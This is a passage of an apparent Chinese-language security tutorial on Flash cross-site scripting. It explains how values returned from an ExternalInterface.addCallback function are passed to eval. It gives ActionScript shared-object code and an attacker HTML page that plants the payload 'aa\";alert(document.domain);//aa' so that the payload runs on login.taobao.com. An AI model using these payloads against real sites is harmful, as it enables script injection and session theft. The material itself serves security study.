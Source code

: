 注意：在解析 object 标签时会把 &#38;quot; 转回 "，但 `xsstest"),(function(){if(!window.x){window.x=1;alert(1)}})(),("`  这一段字符串被当作 text，不会闭合引号。 id 值传递给 document.getElementById 函数时已经是 `"`，故可以闭合这里的引号。  

### Flash缺陷参数-addcallback与lso结合  
这个问题出现的点在addCallback 声明的函数，在被html 界面js 执行之后的返回值攻击者可控，导致了xss问题。  
ie 下 js 会这样处理 flash callback func 执行后的返回值：  
```
eval(instance.CallFunction("<invoke name=\""+name+"\" returntype=\"javascript\">" + __flash__argumentsToXML
(arguments,0) + "</invoke>"));
```
ff and chrome 是这样的：  
`eval(var __flash_temp = "returned value"; __flash_temp;)`

使用lso中首先会setlso，写入脏数据，然后getlso获取脏数据。  
假如 login.taobao.com 上会加载一个 JSocket.swf，代码如下：  
``` actionScript
function setlso(_arg1:String):Boolean{
    var _local2:SharedObject = SharedObject.getLocal("kj");
    _local2.data.key = _arg1;
    _local2.flush();
    return (true);
}
 
function getlso():String{
    var _local1:SharedObject = SharedObject.getLocal("kj");
    if(_local1.data.key == undefined){
        return ("");
    }
    return (_local1.data.key);
}
ExternalInterface.addCallback("getlso",getlso)
ExternalInterface.addCallback("setlso",setlso)
```
x.html:  
``` html
<html>
<body>
<object id="JSocket" tabindex="-1" classid="clsid:D27CDB6E-AE6D-11cf-96B8-444553540000" width="1" height="1" 
codebase="http://fpdownload.macromedia.com/pub/shockwave/cabs/flash/swflash.cab">
  <param name="movie" value="http://acjstb.aliyun.com/actionlog/flash/JSocket.swf">
  <param name="allowScriptAccess" value="always">
  <embed name="JSocket" src="http://acjstb.aliyun.com/actionlog/flash/JSocket.swf" width="1" height="1" 
     allowscriptaccess="always" type="application/x-shockwave-flash" pluginspage="http://www.adobe.com/go/
     getflashplayer">   <!-- if not IE -->
</object>
<script>
function set(){document['JSocket'].setlso('aa\\";alert(document.domain);//aa');}
setTimeout("set()",5000);
</script>
</body>
</html>
```
当用户访问放在 A 站点 的 x.html 时，x.html 也加载 JSocket.swf，并 setlso 一个共享变量。当用户再去访问 login.taobao.com 时，使用 getlso 如 document['JSocket'].getlso() 获取共享变量，如上所示，js 会对callback 函数执行的返回值做处理，如 eval`(var __flash_temp = "aa\\";alert(document.domain);//aa ; __flash_temp;)`  这样就造成了攻击。  
